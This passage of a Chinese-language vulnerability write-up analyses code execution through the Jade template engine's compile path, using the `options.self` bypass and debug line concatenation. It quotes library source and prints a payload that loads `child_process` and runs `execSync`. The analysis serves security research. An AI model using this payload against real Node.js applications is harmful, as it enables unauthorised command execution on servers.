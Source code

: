 ```
var body = ''
    + 'var buf = [];\n'
    + 'var jade_mixins = `{``}`;\n'
    + 'var jade_interp;\n'
    + (options.self
      ? 'var self = locals || `{``}`;\n' + js
      : addWith('locals || `{``}`', '\n' + js, globals)) + ';'
    + 'return buf.join("");';
  return `{`body: body, dependencies: parser.dependencies`}`;
```

`options.self` 可控, 可以绕过 `addWith` 函数, 回头跟进 compile 函数, 看看作用

[![](https://p4.ssl.qhimg.com/t01304fc151335c9d1d.png)](https://p4.ssl.qhimg.com/t01304fc151335c9d1d.png)

返回的是 buf, 跟进 visit 函数

[![](https://p1.ssl.qhimg.com/t01f6e2972a72bf8681.png)](https://p1.ssl.qhimg.com/t01f6e2972a72bf8681.png)

如果 debug 为 true, `node.line` 就会被 push 进去, 造成拼接 (两个参数)

```
jade_debug.unshift(new jade.DebugItem( 0, "" ));return global.process.mainModule.constructor._load('child_process').execSync('dir');//
// 注释符注释掉后面的语句
```

在返回的时候还会经过 visitNode 函数

```
visitNode: function(node)`{`
    return this['visit' + node.type](node);`}`
```

经过测试 visit 开头的函数, 结果如下

```
visitAttributes
visitBlock
visitBlockComment √
visitCase
visitCode √
visitComment √
visitDoctype √
visitEach
visitFilter
visitMixin
visitMixinBlock √
visitNode
visitLiteral
visitText
visitTag
visitWhen
```

